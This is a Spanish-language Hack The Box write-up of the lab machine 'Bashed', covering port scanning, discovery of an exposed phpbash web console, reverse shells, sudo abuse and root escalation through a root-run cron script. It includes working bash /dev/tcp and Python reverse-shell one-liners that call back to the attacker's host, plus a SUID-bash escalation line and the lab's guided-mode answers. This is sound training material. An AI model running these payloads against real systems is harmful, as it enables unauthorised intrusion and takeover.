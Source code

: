 ```yaml
---
title: Writeup bashed - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - bashed
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina bashed en Hack The Box.
keywords:
  - writeup bashed
  - hack the box bashed
  - resolución máquina bashed
  - bashed hack the box
  - htb bashed
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Bashed)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=sOtY0jF3HlA)|[Parte2](https://www.youtube.com/watch?v=fs7WfBYd5o8)
- 🧠 **Explicación resumida**: 

--------

#easy #linux #nmap #ping #reverseshell #tratamientotty #gobuster #sudo-l #abusobinarioscriptmanager

-------
# Guided Mode

1)¿Cuántos puertos TCP abiertos están a la escucha en Bashed?
	1

2)¿Cuál es la ruta relativa en el servidor web a una carpeta que contiene phpbash.php?
	/dev

3)¿Con qué usuario se ejecuta el servidor web en Bashed?
	www-data

*La pregunta anterior era la flag de user.txt*
5)www-data puede ejecutar cualquier comando como usuario sin contraseña. ¿Cuál es el nombre de usuario de ese usuario?
	scriptmanager

6)¿A qué carpeta de la raíz del sistema puede acceder scriptmanager que www-data no puede?
	/scripts

7)¿Cuál es el nombre del archivo que se ejecuta cada dos minutos por root?
	test.py

------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.68
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.68 -oG allPorts
nmap -sCV -p80 10.10.10.68 -oN target
```

![[Bashed1.png]]

![[Bashed2.png]]
*TLL:* Maquina Linux
*Puertos:*
	`80` HTTP

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http:10.10.10.68
```

![[Bashed3.png]]
No nos da ninguna informacion relevante

------

# [[Gobuster]]

![[Bashed4.png]]
*Informacion Relevante:*
	Directorio */dev*

Busque con [[Gobuster]] por archivos php,txt y back. Pero la verdad no encontre nada

---------
# [[Reverse shell]] con python

El directorio que nos llama la atencion es http://10.10.10.68/dev. Entramos y vemos el archivo phpbash.php, ingresamos

![[Bashed7.png]]
Y es uan consola interactiva, como podemos ver estamos conectados con la maquina, asi que ahora vamos a mandar una [[Reverse shell]]

![[Bashed6.png]]
Ahora nos ponemos en escucha con [[nc -nlvp 443]]
Intentamos cargar el payload de ``bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'``  en esta consola interactiva que encontramos, pero no nos da conexion
Asi que vamos a probar hacer la [[Reverse shell]] con el payload de python
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.16.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```

![[Bashed8.png]]
Ya estamos dentro de la maquina

--------
# [[Tratamiento de la TTY]]

-----
# Escalada de privilegios a usuario scriptmanager con [[Abuso de Sudo]] del [[Binario scriptmanager]]

Con [[sudo]] usamos el comando `sudo -l`
```shell
sudo -l
```

Vemos que podemos correr el binario de scriptmanager sin usar contraseña
![[Bashed9.png]]

Ahora vamos a usar con [[sudo]] el comando ``sudo -u scriptmanager /bin/bash`` para ejecutar la bash como el usuario scriptmanager

![[Bashed10.png]]
Ahora estamos como scriptmanger

------
# Escalada de privilegios al usuario root

Con [[ls]] usamos el comando `ls -l` y vemos que como scriptmanager tenemos acceso a la carpeta scripts que esta en la raiz del sistema

![[Bashed11.png]]

Vemos que en esta carpeta hay un archivo *test.py* que abre el archivo test.txt, luego lo escribe y lo cierra, pero vemos despues que ejecutando [[ls]] con el comando `ls -l` que lo esta haciendo como root

![[Bashed12.png]]

Con [[nano]] vamos a abrir el *test.py* usando el comando `nano test.py` le vamos a poner el siguiente oneliner para hacer la bash [[SUID]]
```
import os; os.chmod("/bin/bash", 0o4755)
```

![[Bashed14.png]]
Despues vamos a ejecutar una [[bash]] con privilegios usando el comando `bash -p` y como es *SUID* ahora pasamos a ser el usuario *root*. Para posteriormente catear las flags
![[Bashed13.png]]